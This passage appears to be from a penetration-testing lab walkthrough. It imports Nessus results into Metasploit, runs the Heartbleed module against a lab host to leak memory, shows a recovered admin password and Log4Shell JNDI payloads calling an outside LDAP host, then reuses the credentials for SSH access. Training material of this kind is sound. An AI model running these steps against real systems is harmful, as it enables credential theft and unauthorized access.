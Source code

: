 Let's import the results for Basic Network Scan in Metasploit: `nessus_db_import 8`.

The vulnerabilities and targets for My Basic Network Scan have been imported into the database. To explore the list, run the following command: `vulns`.

**Step 5**: *Exploit detected vulnerabilities from Metasploit to recover credentials of the website users.*

`search heartbleed`, `use auxiliary/scanner/ssl/openssl_heartbleed`, `show options`, `set RHOSTS demossl.ine.local`, `set VERBOSE true`, `exploit`.

Inspect the generated output.

Notice that there are traces of the JNDI LDAP payload to exploit the Log4Shell vulnerability. Nessus tested for this vulnerability, and that's why it's in the memory of the NGINX server. 

```
essus.org/nessus}=${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus};JSESSIONID=${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus};SESSIONID=${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus};PHPSESSID=${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus};token=${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus};session=${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus}..User-Agent: ${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus}..Pragma: no-cache..If-Modified-Since: ${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus}..Accept: ${jndi:ldap://log4shell-generic-OPHhQ1jMGAH8otcWt5ht${lower:ten}.w.nessus.org/nessus}....^...n..yZ!..{.."..d..:.%v...t...Q.......................................................
```

Run the scan command multiple times and inspect the retrieved memory contents.
This time the output contains the credentials of a website user:
```
[*] 192.206.248.4:443     - Printable info leaked:
......e.L.03;r..x#%Tw.e..O..]..H7.u)=...f.....".!.9.8.........5.............................3.2.....E.D...../...A..........................................!hJ]..~.s........Content-Type: application/x-www-form-urlencoded......c phi..6.t1.......B...+.._.username=admin&password=thisistherealadmin.m....S..`....W.....0.......................................................................................................................................
```

In some cases, the passwords might contain extra characters. That's because this module omits all the non-printable characters. So if you wish to detect the complete password, either run the scan command multiple times and compare the results of different runs for the correct password, or you can try out the password and remove characters one by one from it until you find the correct set of credentials.

**Step 6**.

If you recall, SSH service was also available on the target machine.

Albeit a bad practice, sometimes people use a common set of credentials across multiple services. Since we recovered credentials for a few users leveraging the Heartbleed vulnerability, we can try those to SSH into the target machine. 

`ssh admin@demossl.ine.local`.

And with that, we have SSH access to the target machine located at `demossl.ine.local`.
